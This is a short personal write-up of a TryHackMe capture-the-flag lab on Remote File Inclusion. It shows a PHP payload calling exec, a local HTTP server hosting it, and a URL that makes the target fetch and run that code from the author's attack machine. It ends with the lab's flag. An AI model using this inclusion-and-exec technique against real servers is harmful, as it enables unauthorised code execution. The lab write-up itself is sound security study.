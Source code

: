 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [[cybersecurity/write-ups/thm/lfi-ctf-1]] and later ones, this CTF is about finding a flag hidden as a `hostname` with [[cybersecurity/knowledge/pentesting/RFI|Remote File Inclusion]].

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([[cybersecurity/knowledge/pentesting/LFI]]) - to no avail. Since the challenge is about [[cybersecurity/knowledge/pentesting/RFI]], I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![[public/Screenshot 2023-01-04 at 21.18.30.png]]

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`
